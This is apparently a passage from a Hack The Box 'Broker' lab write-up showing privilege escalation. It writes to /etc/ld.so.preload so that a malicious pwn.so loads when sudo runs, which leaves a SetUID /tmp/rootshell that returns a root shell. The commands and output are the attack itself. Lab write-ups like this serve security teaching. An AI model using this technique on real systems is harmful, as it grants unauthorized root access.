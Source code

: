 Now I just need to run something that starts as root. `sudo -l` will work
nicely:

    
    
    activemq@broker:/tmp$ sudo -l
    ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ...[snip]...
    ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    Matching Defaults entries for activemq on broker:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
    
    User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx
    

It fails to load a bunch of shared objects, but if it loaded `pwn.so`, then
`/tmp/rootshell` should be SetUID and SetGID now. It is:

    
    
    activemq@broker:/tmp$ ls -l /tmp/rootshell 
    -rwsr-xr-x 1 root root 1396520 Nov  8 21:07 /tmp/rootshell
    

Running it with `-p` returns a root shell:

    
    
    activemq@broker:/tmp$ /tmp/rootshell -p
    rootshell-5.1# id
    uid=1000(activemq) gid=1000(activemq) euid=0(root) groups=1000(activemq)
    

[](/2023/11/09/htb-broker.html)

